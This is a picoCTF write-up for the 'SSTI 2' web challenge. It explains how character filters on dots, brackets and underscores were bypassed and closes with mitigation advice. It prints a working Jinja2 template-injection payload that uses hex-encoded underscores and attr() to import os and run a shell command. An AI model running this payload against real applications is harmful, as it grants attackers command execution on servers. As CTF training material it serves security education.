





# PicoCTF - SSTI 2 Writeup

## Challenge Description
This challenge involves Server-Side Template Injection (SSTI) with character filters that block common SSTI payloads.

**Category:** Web Exploitation  
**Difficulty:** Medium  

## Initial Analysis



The challenge implements filters that block certain characters commonly used in SSTI attacks:
- `.` (dot notation)
- `[]` (bracket notation)  
- `_` (underscore characters)

This makes standard SSTI payloads ineffective, requiring us to find alternative methods to bypass these filters.

## Reconnaissance



First, we need to identify:
1. The template engine being used
2. What input fields are vulnerable
3. How the filters are implemented

## Payload Development

Since standard SSTI payloads are blocked, we need to use hex encoding to bypass the character filters.

### Filter Bypass Technique

The key insight is using hex encoding (`\x5f`) to represent the underscore character `_`:
- `_` becomes `\x5f`
- This allows us to access Python's special methods like `__init__`, `__globals__`, etc.

### Payload Breakdown

Our successful payload uses the `attr()` filter to access object attributes:

```python
{{ self|attr("\x5f\x5finit\x5f\x5f")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("cat flag")|attr("read")() }}
```

Breaking this down step by step:

1. `self` - References the current template context
2. `|attr("\x5f\x5finit\x5f\x5f")` - Accesses `__init__` method (hex encoded)
3. `|attr("\x5f\x5fglobals\x5f\x5f")` - Accesses `__globals__` dictionary
4. `|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")` - Gets `__builtins__` module
5. `|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")` - Imports the `os` module
6. `|attr("popen")("cat flag")` - Executes `cat flag` command
7. `|attr("read")()` - Reads the command output

### Equivalent Python Command

The payload is equivalent to this Python code:
```python
import os
result = os.popen("cat flag").read()
print(result)
```

## Exploitation



1. Inject the payload into the vulnerable input field
2. The server processes the template with our malicious input
3. The hex-encoded underscores bypass the character filter
4. The payload executes system commands through the `os` module

## Flag Capture



After injecting our payload, we successfully retrieve the flag:

**Flag:** `[FLAG_WILL_BE_SHOWN_HERE]`

## Key Takeaways

1. **Character Encoding:** Hex encoding can bypass character-based filters
2. **Alternative Access Methods:** Using `attr()` filter instead of dot notation
3. **Filter Evasion:** Understanding how filters work helps in crafting bypass techniques
4. **SSTI Methodology:** Always enumerate available objects and methods in the template context

## Mitigation

To prevent this type of attack:
1. Implement proper input validation and sanitization
2. Use whitelist-based filtering instead of blacklist
3. Avoid user input in template contexts
4. Use templating engines with better security defaults
5. Implement Content Security Policy (CSP)

## Tools Used

- Web browser for testing
- Burp Suite (optional) for request manipulation
- Python for payload development

---
*Challenge completed by: DJILI SAMIR*  
*Date: June 7, 2025*
